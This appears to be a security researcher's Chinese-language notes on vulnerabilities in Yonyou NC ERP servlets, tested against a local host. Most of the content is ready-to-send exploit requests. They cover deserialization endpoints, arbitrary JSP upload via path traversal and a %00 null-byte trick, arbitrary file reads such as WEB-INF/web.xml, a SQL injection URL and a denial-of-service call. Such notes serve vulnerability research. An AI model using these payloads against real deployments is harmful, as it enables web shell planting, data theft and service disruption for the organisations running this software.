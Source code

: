 ## 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞

FileReceiveServlet.class	需要分析	看有没其他漏洞

FileParserServlet.class		需要分析	看有没其他漏洞

FileManageServlet.class		需要分析	看有没其他漏洞



ContactsQueryServiceServlet.class  

ContactsFuzzySearchServlet.class

ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷

ActionHandlerServlet.class

## 任意文件上传

UploadFileServlet.class

```
POST /mp/login/../uploadControl/uploadFile HTTP/1.1
Host: host
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Length: 314
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

test content
------WebKitFormBoundaryoDIsCqVMmF83ptmp
Content-Disposition: form-data; name="submit"
	
上传
------WebKitFormBoundaryoDIsCqVMmF83ptmp
	
http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
```

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 177

--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```


SaveImageServlet.class       但是只能是.png文件	可利用windows特性%00传jsp文件， 如果windows版本过高不可能成功

	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 171
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功

webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘

```
POST /servlet/~webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
Accept-Encoding: gzip, deflate
Content-Length: 212


--024ff46f71634a1c9bf8ec5820c26fa9
Content-Disposition: form-data; name="file"; filename="/../../../../../../../../../../../../../ZOScC.asp"

2flYX0pZdqd9hXwFoszSIhjGiI9
--024ff46f71634a1c9bf8ec5820c26fa9--
```



## 任意文件读取	

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端

	POST /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	Content-Type: application/data
	
	123123

http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	

## sql注入

MARosterPhotoServlet.class  已有

```
http://127.0.0.1:8081/servlet/~pubapp/com.yonyou.ma.roster.servlet.MARosterPhotoServlet?photoId=123'&type=pid
```




## 综合漏洞

ManagerServlet.class  不是用友的 是tomcat的
	
	

## 拒绝服务

upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
